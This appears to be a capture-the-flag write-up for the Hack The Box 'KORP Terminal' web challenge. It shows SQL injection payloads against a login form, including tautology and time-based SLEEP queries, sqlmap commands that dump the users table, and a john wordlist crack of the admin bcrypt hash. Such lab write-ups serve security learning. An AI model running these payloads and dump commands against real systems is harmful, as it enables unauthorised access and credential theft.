





# KORP Terminal

> Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.
>
> Web Site:
> - `83.136.250.218:48681`

**Writeup by:** Hein Andre Grønnestad


- [KORP Terminal](#korp-terminal)
  - [Web Site](#web-site)
  - [SQLmap](#sqlmap)
  - [Cracking The Hash](#cracking-the-hash)
  - [Flag](#flag)
  - [SQLi](#sqli)


## Web Site

We are presented with a login screen.



Let's click on the "Log-in" button and see what happens:



The "Close connection"-button gives the same error.

Trying to log in with `admin:admin` gives the following error:



Let's try something else. Let's try to use a tick; `'` for both the username and password:



```json
{
    "error": {
        "message": [
            "1064",
            "1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1",
            "42000"
        ],
        "type": "ProgrammingError"
    }
}
```

Interesting! Seems like we might have an SQL Injection vulnerability. We also see that the server is running MariaDB, which is very useful information.

Let's try some payloads:

Using `' OR '1'='1` as the password in combination with `admin` or `root` as the user does not work:

```json
{
    "message": "Invalid user or password"
}
```

Using `' OR '1'='1` for both the username and password also does not work.

Using `' OR '1'='1'; --` for both the username and password does not work:

```json
{
    "error": {
        "message": [
            "-1",
            "Use multi=True when executing multiple statements",
            "None"
        ],
        "type": "InterfaceError"
    }
}
```

Seems like running multiple statements is not allowed.

Using this time based payload, we verify that the `users` table exists and that there is a column named `username` as well as a user named `admin`.

```
' OR IF((SELECT 1 FROM users WHERE username = 'admin' AND SLEEP(5)),null,null) -- -
```

At this point we could make a script to extract the password hash for the `admin` user using the same time based technique.

But at this point it's way easier to just use `sqlmap`. (I hope that's allowed 🤞🏻).


## SQLmap

I saved the request to a file called `http.txt` and ran `sqlmap` with the following commands:

```bash
$ sqlmap -r http.txt -p username --ignore-code 401 --tables

# ...abbreviated

Database: korp_terminal
[1 table]
+---------------------------------------+
| users                                 |
+---------------------------------------+


$ sqlmap -r http.txt -p username --ignore-code 401 -T users --dump

# ...abbreviated

Database: korp_terminal
Table: users
[1 entry]
+----+--------------------------------------------------------------+----------+
| id | password                                                     | username |
+----+--------------------------------------------------------------+----------+
| 1  | $2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv. | admin    |
+----+--------------------------------------------------------------+----------+
```


## Cracking The Hash

```bash

$ echo '$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.' > forjohn

$ john --wordlist=/usr/share/wordlists/rockyou.txt forjohn
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 32 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (?)
1g 0:00:00:03 DONE (2024-03-12 20:30) 0.2617g/s 376.9p/s 376.9c/s 376.9C/s 753951..michel
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The password for the `admin` user is `password123`.


## Flag



```
HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}
```


## SQLi

I still don't understand why I can't bypass the login alltogether. I wonder how the SQL query in the login code is implemented. I would like to see the source code for the login page.
